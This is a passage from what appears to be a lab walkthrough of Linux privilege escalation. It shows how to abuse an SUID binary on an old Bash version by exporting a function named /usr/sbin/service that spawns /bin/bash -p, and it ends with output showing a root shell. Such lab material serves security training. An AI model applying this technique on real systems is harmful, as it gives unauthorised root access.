 ```bash
/usr/sbin/service apache2 start
```

**Explanation:**  
This output confirms that the executable uses the full path to the `service` command, which makes it immune to typical PATH-based attacks.

Next, verify the Bash version on the Debian VM to ensure it’s vulnerable:

```bash
/bin/bash --version
```

**Sample Output:**

```bash
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```

**Explanation:**  
The output shows that the Bash version is 4.1.5, which is vulnerable to the technique we’re about to use. In these older versions, it’s possible to define a shell function that mimics a file path, allowing us to execute arbitrary commands with elevated privileges.

### Step 3: Exploiting the Vulnerability

**1. Define a Malicious Shell Function:**

Create a Bash function with the name `/usr/sbin/service` that, instead of starting the Apache service, spawns a new Bash shell with root privileges:

```bash
function /usr/sbin/service { /bin/bash -p; }
```

**Explanation:**  
This function overrides the actual `/usr/sbin/service` executable. When the `suid-env2` executable attempts to start the Apache service, it will instead execute this function.

**2. Export the Function:**

To ensure the function is available in the environment when the `suid-env2` program runs, export it:

```bash
export -f /usr/sbin/service
```

**3. Run the SUID Program:**

Execute the `suid-env2` program to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

**Sample Output:**

```bash
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```
